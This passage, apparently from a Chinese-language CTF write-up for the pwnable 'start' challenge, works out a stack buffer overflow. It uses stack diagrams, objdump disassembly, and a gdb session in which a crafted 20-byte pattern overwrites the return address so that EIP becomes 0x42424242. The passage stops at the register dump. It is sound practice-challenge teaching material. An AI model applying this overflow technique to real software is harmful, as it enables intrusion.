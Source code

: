 ```sh
    |       s st      |         |
    +-----------------+         |
    |       art       |        14h
    +-----------------+         |
    |       the       |         |
    +-----------------+         |
    |       CTF:      |         |
    +-----------------+      <-----
    |   offset _exit  |
    +-----------------+
    |    Saved ESP    |
H-> +-----------------+
```

sys_read
read函数最多可以读取3ch字节，超出了分配的空间，可以用来覆盖ret_addr和esp。经调试验证，20字节后覆盖ret，24字节后覆盖esp
```sh
 +-----------------+      <----
    |       aaaa      |         |     
    +-----------------+         |
    |       aaaa      |         |
    +-----------------+         |
    |       aaaa      |        14h
    +-----------------+         |
    |       aaaa      |         |
    +-----------------+         |
    |       aaaa      |         |
    +-----------------+      <-----
    |       aaaa      |      # ret addr
    +-----------------+
    |    Saved ESP    |      # esp
H-> +-----------------+

```

可以通过“0x14+Addr”跳转想要的地址

**objdump:** 对目标文件（obj）或可执行文件进行反汇编，是一种可阅读格式的二进制文件。

```sh
objdump -M intel -d ./start
# -M -m machine   --architecture=machine  指定反汇编目标文件时使用的架构。当待反汇编的目标文件其本身并没有包含arch信息时(如S-records文件)，我们就可以使用此选项来进行指定。我们可以使用objdump 
#-i来列出所支持的arch。
# -d  --disassemble    从objfile中对机器指令进行反汇编。本选项只对那些包含指令的section进行反汇编。
```

Try it with gdb
```sh
$ python -c "print(0x14*'A'+'BBBB')"
AAAAAAAAAAAAAAAAAAAABBBB

$ gdb -q ./start
pwndbg: loaded 191 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ./start...(no debugging symbols found)...done.

pwndbg> r
Starting program: /mnt/hgfs/pwn/pwnable/start/start 
Let's start the CTF:AAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────[ REGISTERS ]────────────────────────────────────
 EAX  0x19
```